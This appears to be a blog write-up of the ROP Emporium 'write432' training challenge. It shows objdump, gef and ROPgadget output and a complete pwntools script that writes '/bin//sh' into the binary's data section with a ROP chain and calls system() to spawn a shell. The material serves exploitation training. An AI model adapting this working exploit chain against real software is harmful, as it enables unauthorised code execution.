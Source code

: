 ```yaml
---
layout: post
title: ROP Emporium - write432
---
```


### Instruction
Once you've figured out how to write your string into memory and where to write it, go ahead and call system() with its location as your only argument. Are you going to cat flag.txt or drop a shell with /bin/sh? Try to wrap some of your functionality in helper functions, if you can write a 4 or 8 byte value to a location in memory, can you craft a function (in python using pwntools for example) that takes a string and a memory location and returns a ROP chain that will write that string to your chosen location? Crafting templates like this will make your life much easier in the long run.

### Prev step to overflow stack
<https://bhrdn.github.io/ROP-Emporium-ret2win32/>

### Find addr data section
```bash
objdump -D write432 | grep data_start | awk '{print $1}'
```
- __data_start : 0x804a028

### Check function usefulGadgets
```
gef➤  disassemble usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x08048670 <+0>:     mov    DWORD PTR [edi],ebp
   0x08048672 <+2>:     ret    
   0x08048673 <+3>:     xchg   ax,ax
   0x08048675 <+5>:     xchg   ax,ax
   0x08048677 <+7>:     xchg   ax,ax
   0x08048679 <+9>:     xchg   ax,ax
   0x0804867b <+11>:    xchg   ax,ax
   0x0804867d <+13>:    xchg   ax,ax
   0x0804867f <+15>:    nop
End of assembler dump.
```
- mov    DWORD PTR [edi],ebp

### ROPgadget to search gadgets
```bash
ROPgadget --binary write432 | grep "pop edi"
```
```
0x080486d5 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080486d4 : jecxz 0x8048661 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d3 : jne 0x80486c1 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080486d6 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d7 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x080486d8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080486da : pop edi ; pop ebp ; ret
0x080486d9 : pop esi ; pop edi ; pop ebp ; ret
```
- 0x080486da : pop edi ; pop ebp ; ret

### Payload
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('write432')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

payload = '\x90' * cyclic_find('laaa')
command = '/bin//sh'

DATA_START = 0x804a028
POP_EDI_POP_EBP = 0x080486da

rop = ROP(exe)
for _ in range(0, len(command), 4):
	rop.raw(POP_EDI_POP_EBP)
	rop.raw(DATA_START + _)
	rop.raw(command[_:_ + 4])
	rop.raw(exe.symbols['usefulGadgets'])

rop.system( DATA_START )

io.sendline(payload + rop.__str__())
io.interactive()
```